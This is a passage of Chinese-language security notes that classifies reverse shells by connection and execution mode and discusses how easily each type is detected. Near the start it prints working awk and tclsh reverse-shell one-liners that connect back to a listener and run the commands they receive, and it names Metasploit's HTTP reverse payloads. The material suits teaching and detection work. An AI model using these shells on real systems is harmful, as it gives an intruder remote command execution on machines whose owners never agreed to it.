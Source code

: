 #### 1、网络是长连接，命令执行是非常驻shell模式

```text
awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/8080"; while(42) { do{ printf "shell>" |& s; s |& getlinec; if(c){ while((c |& getline) > 0) print $0 |& s;close(c); } } while(c != "exit") close(s); }}' /dev/null

echo 'set s [socket 127.0.0.1 8080];while 42 { puts -nonewline $s "shell>";flush $s;gets $s c;sete"exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; };close $s;' | tclsh
```

![](../../.gitbook/assets/image%20%28437%29.png)

#### 2、网络是短连接，命令执行是常驻shell模式

![](../../.gitbook/assets/image%20%28444%29.png)

client向server发送请求，server将命令内容响应给client,client 获取命令内容，通过管道发送给bash执行，并读取执行结果， 最后通过请求再发给server，完成一个流程。 

这种的比较少见，反正都无法产生交互式，没必要这么复杂，因此更多地是第一种和第三种

#### 3、网络是是短连接，命令执行是非常驻shell模式

结构是上面两个的拼接，这种反弹shell,采用http/s协议，通过心跳包的方式，传递命令和结果，因为这里的http/s是短连接， 命令执行时间较短，相对来说不容易检测。 

在Metasploit 中，通过 reverse\_http和reverse\_https这两种payload，可以生成。如果大家对其他协议的反弹shell感兴 趣，例如icmp的反弹shell

### 2、非交互式-连通类

连通类非交互式反弹shell，相对传统，容易被检测到，例如nc 反弹，部分bash手法反弹（bash 不加 -i ）。连通类非交互式反 弹shell 可以和业界常说的交互式反弹shell做对应，既然我这里把它定义为非交互式连通类，说明一下我的判断标准：
